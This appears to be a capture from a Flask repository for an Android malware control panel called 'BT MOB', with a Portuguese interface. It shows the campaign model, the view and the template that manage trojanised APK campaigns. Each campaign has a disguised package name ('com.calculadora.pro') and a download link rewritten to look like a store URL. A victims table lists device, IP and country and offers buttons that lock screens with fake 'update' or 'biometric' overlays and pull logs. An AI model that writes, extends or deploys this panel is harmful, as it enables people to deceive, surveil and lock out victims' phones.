
Screenshot of /campaign/2 (signed in) with the database file from the repository.
### models.py (models this page shows)
class Campaign(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    name = db.Column(db.String(100), nullable=False)
    app_name = db.Column(db.String(100), nullable=False)
    package_name = db.Column(db.String(100), nullable=False)
    icon_path = db.Column(db.String(255))
    base_apk_path = db.Column(db.String(255), nullable=False)
    built_apk_path = db.Column(db.String(255))
    download_token = db.Column(db.String(64), unique=True, default=lambda: str(uuid.uuid4()).replace('-', ''))
    download_count = db.Column(db.Integer, default=0)
    active = db.Column(db.Boolean, default=True)
    created_at = db.Column(db.DateTime, default=datetime.utcnow)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    victims = db.relationship('Victim', backref='campaign', lazy=True)

### app.py (the view)
@app.route('/campaign/<int:campaign_id>')
@login_required
def campaign_detail(campaign_id):
    campaign = Campaign.query.get_or_404(campaign_id)
    if campaign.user_id != current_user.id:
        abort(403)
    victims = Victim.query.filter_by(campaign_id=campaign.id).order_by(Victim.last_seen.desc()).all()
    download_url = f"{Config.PANEL_DOMAIN}/download/{campaign.download_token}"
    return render_template('campaign_detail.html', campaign=campaign, victims=victims, download_url=download_url)

### app.py (called while the page is built)
@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))

### templates/campaign_detail.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="pt-BR">
<head>
</head>
<body>
    <nav class="navbar">
        <h1>BT MOB</h1>
        <a href="{{ url_for('dashboard') }}">← Dashboard</a>
    </nav>
    <div class="container">
        <div class="campaign-header">
            <h2>{{ campaign.name }}</h2>
            <div class="info-grid">
                <div class="info-item">
                    <label>App Name</label>
                    <span>{{ campaign.app_name }}</span>
                </div>
                <div class="info-item">
                    <label>Package</label>
                    <span><code>{{ campaign.package_name }}</code></span>
                </div>
                <div class="info-item">
                    <label>Downloads</label>
                    <span>{{ campaign.download_count }}</span>
                </div>
                <div class="info-item">
                    <label>Vítimas</label>
                    <span>{{ campaign.victims|length }}</span>
                </div>
                <div class="info-item">
                    <label>Criado</label>
                    <span>{{ campaign.created_at.strftime('%d/%m/%Y %H:%M') }}</span>
                </div>
            </div>
            <div class="download-box">
                <span style="color: #888;">🔗 Link de Download:</span>
                <input type="text" id="downloadUrl" value="{{ download_url.replace('/download/', '/store/') }}" readonly>
                <button class="btn btn-copy" onclick="copyUrl()">Copiar</button>
            </div>
            <div class="delete-form">
                <form method="POST" action="{{ url_for('delete_campaign', campaign_id=campaign.id) }}" onsubmit="return confirm('Tem certeza que deseja excluir esta campanha? Todos os dados serão perdidos.');">
                    <button type="submit" class="btn" style="background: #ff4444; color: #fff;">🗑 Excluir Campanha</button>
                </form>
            </div>
        </div>
        <div class="section">
            <h3>🎯 Vítimas Conectadas</h3>
            {% if victims %}
            <table>
                <thead>
                    <tr>
                        <th>Device ID</th>
                        <th>Modelo</th>
                        <th>Android</th>
                        <th>IP</th>
                        <th>País</th>
                        <th>Status</th>
                        <th>Última vez</th>
                        <th>Ações</th>
                    </tr>
                </thead>
                <tbody>
                    {% for victim in victims %}
                    <tr data-victim-id="{{ victim.id }}">
                        <td><code style="font-size: 11px;">{{ victim.device_id[:16] }}...</code></td>
                        <td>{{ victim.device_model or 'N/A' }}</td>
                        <td>{{ victim.android_version or 'N/A' }}</td>
                        <td>{{ victim.ip_address or 'N/A' }}</td>
                        <td>{{ victim.country or 'N/A' }}</td>
                        <td>
                            {% if victim.screen_locked %}
                                <span class="locked-badge">🔒 BLOQUEADO ({{ victim.lock_type }})</span>
                            {% else %}
                                <span class="status-online">● Online</span>
                            {% endif %}
                        </td>
                        <td style="color: #888;">{{ victim.last_seen.strftime('%H:%M') }}</td>
                        <td>
                            <div class="lock-controls">
                                <button class="btn btn-lock" onclick="lockScreen({{ victim.id }}, 'update')">📱 Atualização</button>
                                <button class="btn btn-lock" onclick="lockScreen({{ victim.id }}, 'biometric')">👤 Biometria</button>
                                <button class="btn btn-unlock" onclick="unlockScreen({{ victim.id }})">🔓 Desbloquear</button>
                                <button class="btn btn-logs" onclick="showLogs({{ victim.id }})">📋 Logs</button>
                            </div>
                        </td>
                    </tr>
                    {% endfor %}
                </tbody>
            </table>
            {% else %}
            <div class="empty-state">
                <p>Nenhuma vítima conectada ainda.</p>
                <p style="margin-top: 10px; color: #888;">Aguardando instalações do APK...</p>
            </div>
            {% endif %}
        </div>
    </div>
</body>
</html>

### templates/campaign_detail.html (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { background: #0a0a0a; color: #fff; font-family: 'Segoe UI', Arial, sans-serif; }
.navbar { background: #1a1a2e; padding: 15px 30px; display: flex; justify-content: space-between; align-items: center; border-bottom: 1px solid #333; }
.navbar h1 { color: #00ff88; font-size: 24px; }
.navbar a { color: #888; text-decoration: none; font-size: 14px; }
.container { padding: 30px; max-width: 1400px; margin: 0 auto; }
.campaign-header { background: #1a1a2e; border-radius: 10px; border: 1px solid #333; padding: 25px; margin-bottom: 25px; }
.campaign-header h2 { color: #00ff88; margin-bottom: 15px; }
.info-grid { display: grid; grid-template-columns: repeat(auto-fit, minmax(200px, 1fr)); gap: 15px; margin-top: 15px; }
.info-item { background: #0a0a0a; padding: 12px; border-radius: 6px; }
.info-item label { display: block; color: #888; font-size: 12px; margin-bottom: 4px; }
.info-item span { font-size: 14px; }
.download-box { background: #0a0a0a; border: 1px solid #00ff88; border-radius: 8px; padding: 15px; margin-top: 15px; display: flex; align-items: center; gap: 15px; }
.download-box input { flex: 1; background: transparent; border: none; color: #00ff88; font-family: monospace; font-size: 14px; outline: none; }
.btn { padding: 8px 16px; border-radius: 6px; border: none; font-size: 13px; font-weight: bold; cursor: pointer; text-decoration: none; display: inline-flex; align-items: center; gap: 5px; }
.btn-copy { background: #00ff88; color: #000; }
.section { background: #1a1a2e; border-radius: 10px; border: 1px solid #333; padding: 25px; margin-bottom: 20px; }
.section h3 { color: #00ff88; margin-bottom: 20px; font-size: 18px; }
.empty-state { text-align: center; padding: 40px; color: #666; }
.delete-form { margin-top: 20px; padding-top: 20px; border-top: 1px solid #333; }

### rows the page displays
Campaign: name "tesete", app_name "teste", package_name "com.calculadora.pro", download_count "0", created_at "22/07/2026 00:38"

### other values shown
{{ campaign.victims|length }} "0"
